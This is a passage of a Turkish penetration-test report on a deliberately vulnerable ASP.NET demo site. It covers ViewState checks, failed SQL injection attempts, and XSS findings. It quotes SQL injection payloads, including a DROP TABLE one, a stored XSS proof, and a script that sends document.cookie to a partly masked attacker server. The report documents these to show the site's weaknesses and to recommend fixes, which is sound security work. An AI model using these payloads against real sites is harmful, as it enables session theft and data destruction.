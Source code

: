 
## 4. Başarısız Olan Test Denemeleri

Aşağıda, test sırasında gerçekleştirilen ancak güvenlik açığı tespit edilemeyen denemeler listelenmiştir. Bu testler, uygulamanın belirli alanlarda güvenli olduğunu göstermektedir, ancak sürekli izleme ve daha ileri testler önerilir.

### 4.1 Viewstate Değeri Kontrolü

- **Açıklama**: ASP.NET uygulamasında kullanılan Viewstate değerleri analiz edilmiştir. Aşağıdaki Viewstate değerleri Base64 ile decode edilerek şifre veya hassas veri içerip içermediği kontrol edilmiştir:
  - `/wEPDwULLTE5OTE4NzY0OTlkZEGq7g8QSSx4n7ZaDhBOkGyN4b07NbSokTHWMKCzkWhu`
    - **Base64 Decoded**: `b'\xff\x01\x0f\x0f\x05\x0b-1991876499ddA\xaa\xee\x0f\x10I,x\x9f\xb6Z\x0e\x10N\x90l\x8d\xe1\xbd;5\xb4\xa8\x911\xd60\xa0\xb3\x91hn'`
  - `/wEPDwUJMjQ5MTUxNTk1ZGR7SoZRZsldR0XCCBJ8b6HK3VNxZbwNpnWqw2kHQS3GdA==`
    - **Base64 Decoded**: `b'\xff\x01\x0f\x0f\x05\t249151595dd{J\x86Qf\xc9]GE\xc2\x08\x12|o\xa1\xca\xddSqe\xbc\r\xa6u\xaa\xc3i\x07A-\xc6t'`
- **Sonuç**: Decode edilen verilerde şifre veya hassas bilgi tespit edilememiştir. Viewstate’in yapılandırması güvenli görünmektedir.

### 4.2 SQL Injection Denemesi (Login Sayfası)

- **Açıklama**: `/login.aspx` sayfasında SQL Injection açıklarını test etmek için çeşitli payload’lar (ör. `' OR '1'='1`, `1; DROP TABLE users --`) denenmiştir.
- **Sonuç**: Hiçbir payload başarılı olmamış ve SQL Injection açığı tespit edilememiştir. Uygulama, girişleri uygun şekilde filtreliyor veya parametreli sorgular kullanıyor gibi görünmektedir.

### 4.3 Document.cookie Çalma Denemesi (GuestbookList.aspx)

- **Açıklama**: `http://aspnet.testsparker.com/GuestbookList.aspx` üzerinden document.cookie çalmak için XSS denemesi yapılmıştır. (Örnek: `<script> new Image().src = "http://4.xxx.xxx.171:8000/?" + document.cookie;</script>`) Azure üzerinde bir sunucu (`http://4.xxx.xxx.171:8000`) açılmış, portlar uygun şekilde konfigüre edilmiş ve Python HTTP sunucusu ile dinlemeye geçilmiştir. Ancak, backend tarafından (frontend tarafından olmadığı anlaşıldı.) girişlerin yalnızca string olması gerektiği ve sembollerin kullanılamayacağına dair hata mesajı alınmıştır: `Please, post only strings (you cannot use only digits) and don't use: #,$,-,',"^,+,{,}.`
- **Sonuç**: Giriş doğrulama kısıtlamaları nedeniyle document.cookie çalma denemesi başarısız olmuştur. Bu, uygulamanın belirli XSS saldırılarına karşı koruma sağladığını gösterir.
- **Öneri**: Mevcut giriş doğrulama mekanizmalarını koruyun ve tüm kullanıcı girişlerini denetleyin. Ayrıca, Content Security Policy (CSP) ve HttpOnly cookie bayraklarını kullanarak XSS saldırılarına karşı ek koruma sağlayın.

---

## 5. Kanıtlar ve Ekran Görüntüleri

### 5.1 Stored XSS in Guestbook

- **Payload**: `<svg><script>confirm(1)</script></svg>`
- **Sonuç**: `http://aspnet.testsparker.com/guestbook.aspx` ziyaret edildiğinde JavaScript uyarısı çalışır.
- **Ekran Görüntüsü**: 
